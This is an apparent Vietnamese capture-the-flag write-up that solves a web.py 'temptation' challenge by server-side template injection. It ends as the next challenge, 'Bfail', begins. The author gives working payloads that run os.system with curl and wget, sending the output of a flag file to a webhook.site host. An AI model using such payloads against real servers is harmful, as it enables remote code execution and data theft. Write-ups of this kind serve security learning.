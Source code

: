 ```python
    form.Button("submit", type="submit", description="Submit")
)

class index:
    def GET(self):
        try:
            i = web.input()
            if i.source:
                return open(__file__).read()
        except Exception as e:
            pass
        f = temptation_Form()
        return render.index(f)

    def POST(self):
        f = temptation_Form()
        if not f.validates():
            return render.index(f)
        i = web.input()
        temptation = i.temptation
        if 'flag' in temptation.lower():
            return "Too tempted!"
        try:
            temptation = web.template.Template(f"Your temptation is: {temptation}")()
        except Exception as  e:
            return "Too tempted!"
        if str(temptation) == "FLAG":
            return FLAG
        else:
            return "Too tempted!"
application = app.wsgifunc()
if __name__ == "__main__":
    app.run()
```

Ở đây web xài framework [webpy](https://webpy.org/) và có một đoạn web sẽ truyền biến temptation vào `temptation = web.template.Template(f"Your temptation is: {temptation}")()
` nên mình chắc chắn web bị dính SSTI. Mình thử payload sau và catch được webhook.

`${__import__('os').system('curl https://webhook.site/9014953e-496e-467e-9e71-c95ea9444dad')}`

![image](https://hackmd.io/_uploads/SJyUCbA_1g.png)

Ok ngon rồi giờ chỉ cần chỉnh lại payload để lấy flag là xong

```${__import__('os').system('$(wget https://webhook.site/9014953e-496e-467e-9e71-c95ea9444dad/a?b=`cat /tmp/fla*`);')}```

![image](https://hackmd.io/_uploads/r1V9-GC_ye.png)

Flag : ENO{T3M_Pl4T_3S_4r3_S3cUre!!}

## Bfail

### Hints

Bcrypt

### Solution

Challenge cho mình một trang web như sau

![image](https://hackmd.io/_uploads/SkNdsGRuJe.png)

Mình thử đăng nhập nhưng không được nên lại mở devtool xem

```